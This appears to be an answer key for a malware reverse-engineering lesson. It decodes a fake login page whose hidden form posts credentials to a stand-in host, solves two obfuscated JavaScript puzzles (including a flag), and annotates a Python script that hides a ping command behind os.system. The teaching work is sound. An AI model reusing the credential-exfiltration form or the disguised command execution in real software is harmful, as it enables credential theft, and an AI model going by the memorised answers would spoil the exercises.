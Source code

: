# Solutions
This document contains the solutions for the practice problems in this lesson.

# JavaScript
## FakeLoginExample.html
**Objective: Find the URL to which credentials are being exfiltrated.**

By first opening the file, we see that the text is encoded.The frequent `%` signs indicate that this is URL encoded. You can decode the text using the URL decode feature on [CyberChef](https://gchq.github.io/CyberChef). 

After decoding the string, we get a complete HTML framework that has CSS and JS included. The CSS and HTML can be ignored. Usually credentials are exfiltrated through a user input or form which occurs in Javascript. 

Look for JavaScript in the decoded string. There is a script tag in the code:
```javascript
    <script>
      var tag = document.getElementById('tag')
      tag.innerHTML = atob("PGZvcm0gUE9TVD0iaHR0cDovL2FubmFsYW5lcy5jb20vZmlsZXRoaXNhd2F5L3R4dC50eHQiPg==")
    </script>
```

The atob() function is another version of encoding-- Base64. We can use CyberChef to decode the string, which in this case becomes 
```html
<form POST="http://annalanes.com/filethisaway/txt.txt">
```

This code indicates that when the form in the HTML is submitted, the information is sent to the URL `http://annalanes.com/filethisaway/txt.txt`

**Answer: The credentials are exfiltrated to http[:]//annalanes[.]com/filethisaway/txt.txt (not a real website!)**

## reverseJavaScriptExample.js
**Goal: Figure out what line 33 will print out**
```javascript
console['log'](myFunction(0x14, 0xa));
```

First put the entire javascript code into [beautifier.io](https://beautifier.io/). It won't do too much. One of the key tips for reverse engineering is to check outputs, strings, and function calls.

Output: the console.log statement on line 33

Strings: The only strings related to the output are the variables passed into the function `myFunction`, which are `0x14` and `0xa`. These are hexadecimal characters which represent the decimal numbers `20` and `10`, respectively.

Function calls: Let's now analyze the function `myFunction`

```javascript
function myFunction(_0xa4d92a, _0x45c33b) {
  return _0xa4d92a * _0x45c33b;
}
```

We see that this function simply returns the product of the two variables passed into the function. So, the console.log just prints the product of the two numbers passed into it. Since `20` and `10` were passed into the function, the output should be `200`.

The rest of the code was simply added as an obfuscation technique and does nothing. By running the code on [jsconsole](https://jsconsole.com/), you can see that the output is indeed 200.

**Answer: The console will output 200.**

## reverseJavascriptPractice.js
** Goal: find the flag. (The flag format will match the regex `.*{.*}`)**

First put the entire javascript code into [beautifier.io](https://beautifier.io/). It will format it to be a little nicer. One of the key tips for reverse engineering is to check outputs. If you look at the bottom of the beautified JS, you will see:
```javascript
const item = ['a', 'n', 'n', 'a', ':', '!', ')', '{', 'x', 'o', 'y', 'g', 's', 's', 'p', 'p', 'g', 'r', 'l', '}'];
for (let i = 0x0; i < item[_0x361ee1(0x173)]; i++) {
    item[i] !== 'p' && i % 0x5 != 0x0 && console[_0x361ee1(0x16b)](item[i]);
}
```

This is the output statement since we see it has a print console statement. The print console statement conditionals will print any letter in the *item* array that is not equal to 'p' or any item in the array that is not at an indice that is a multiple of 5. If you iterate through the array one by one, you will see that the console will output `nna:){xogssgrl}`

**Answer: the flag is `nna:){xogssgrl}`**


# Python
## reversePython1.py
Objective: Figure out what command line 32 runs.
```python
os.system(command)
```

See the commented code below to see what each line of the code does.

```python
#!/usr/bin/python

#import necessary modules
import sys
import os
import codecs

def setDarkMode():
  # create an array of size 12 that is filled with the value 0
    screenVector = [0] * 12
    # create an array (also of size 12) with all these float integer values
    initialization = [56, 52.5, 55, 51.5, 16, 24.5, 23, 24.5, 23, 24.5, 23, 24.5]

    # iterature through the initialization array
    for pixel in range(len(initialization)):
      # the screenVector array becomes equal to the initialization array values multipled by 2

       screen = initialization[pixel] * 2
       screenVector[pixel] = screen

       # so at the end of the loop, the screenVector array equals = [112,105,110,103,32,49,46,49,46,49,46,49]

    # create an empty string
    mode = ''
    # interate through the screenVector array
    for pixel in range(len(screenVector)):
      # the chr() function takes a numerical value and turns it into its ASCII equivalent. so 112 is 'p' and 105 is 'i', etc. If you take all the ASCII equivalents of the numbers in the screenVector array, the string becomes 'ping 1.1.1.1'
       mode += chr(int(screenVector[pixel]))

    return mode 
    #return the string literal from the function  


def main():
  # if not 2 command line arguments (the file to run <this> and another argument) are passed to the function, print the fatal error 500
    if len(sys.argv) != 2:
        print("Fatal error 500")
        return
    #if the second argument passed to the commandline, when encoded by rot 13, equals `elhxznyjnertebhc` then print out "exiting"
    # this means the string we pass needs to be elhxznyjnertebhc decoded by rot 13 which becomes 'ryukmalwaregroup'.
    # set 'ryukmalwaregroup' as the command line argument to get the code to print 'Exiting'
    elif (sys.argv[1]) == codecs.decode('elhxznyjnertebhc', 'rot_13'):
        print("Exiting")
        return
    else:
        command = setDarkMode()
        # will run the string as a command that setDarkMode() returns, which we established is ping
        # so this will just run a ping command to 1.1.1.1
        os.system(command)

# call main function
if __name__ == "__main__":
  main()
```